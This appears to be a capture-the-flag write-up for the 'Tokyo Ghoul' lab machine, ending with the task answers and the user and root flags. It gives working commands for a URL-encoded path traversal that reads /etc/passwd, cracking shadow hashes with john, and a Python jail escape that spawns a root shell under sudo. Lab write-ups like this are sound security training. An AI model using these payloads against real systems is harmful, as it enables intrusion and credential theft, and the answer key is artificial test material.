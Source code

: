 # Tokyo Ghoul-password hash expose (LFI)

```
export IP=10.10.75.135
```

# Material needed

1. Reverse engineering "need_to_talk"

```
file need_to_talk  # find format file
strings need_to_talk  # find the code to execute
./need_to_talk

> kamishiro

# Result: You_found_1t
```

2. Reverse engineering "rize_and_kaneki.jpg"

```
steghide --extract -sf rize_and_kaneki.jpg
Enter passphrase: You_found_1t
```

3. Reverse engineering "yougotme.txt"

```
Morse decoder
ASCII to hex: 5A4446794D324D334D484A3558324E6C626E526C63673D3D
base64 decode: ZDFyM2M3MHJ5X2NlbnRlcg==

# Result: d1r3c70ry_center 
```

4. LFI bypass protection 

```
curl http://10.10.75.135/d1r3c70ry_center/claim/index.php?view=%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd 
```

5. Crack user password

```
unshadow passwd shadow > password
john --wordlist=/root/Documents/wordlist/rockyou.txt password
```

6. Privilege escalation

```
sudo /usr/bin/python3 /home/kamishiro/jail.py
>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['EXECL'.lower()]('/bin/sh','sh','-p')
```

# Tasks

1. How many ports are open ? 3

2. What is the OS used ? Ubuntu

3. Did you find the note that the others ghouls gave you? where did you find it ? jasonroom.html

4. What is the key for Rize executable? kamisihiro

5. What the message mean did you understand it ? what it says? d1r3c70ry_center

6. what is rize username ? kamishiro

7. what is rize password ? password123

8. user.txt

```
e6215e25c0783eb4279693d9f073594a
```

9. root.txt
 
```
9d790bb87898ca66f724ab05a9e6000b
```